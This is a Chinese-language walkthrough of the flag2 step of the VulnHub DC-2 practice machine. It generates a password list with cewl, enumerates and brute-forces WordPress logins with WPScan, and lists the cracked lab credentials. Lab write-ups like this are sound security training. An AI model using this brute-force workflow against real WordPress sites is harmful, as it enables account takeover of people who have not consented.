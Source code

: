 
# flag2

flag1 提示了一个工具 cewl,这是个抓取网站信息用于生成密码的工具,估计意思就是让你用这个工具跑个密码表出来

cewl kali 下自带,直接使用就是了
```bash
cewl http://dc-2 -w out.txt
```

密码表有了,那么就应该爆破了,目标这个网站一看用的就是 wordpress,默认的登录地址一般是 `/wp-admin` 或 `/wp-login.php`

不要使用 kali 自带的 burp 直接跑,你会急得想砸电脑,kali 默认的 burp 是社区版,那个爆破速度基本没用,burp 使用教程参考 [BurpSuite笔记](../../../工具/BurpSuite.md#Intruder)

接下来使用一个工具 WPScan,同样 kali 自带
```bash
wpscan --url http://dc-2 --enumerate u
wpscan --url http://dc-2 --passwords out.txt
```

爆破结果,存在2个账户

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC2/5.png)

```
Username : jerry
Password : adipiscing

Username : tom
Password : parturient
```

使用账号 jerry 登录后可以发现 flag2

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC2/4.png)
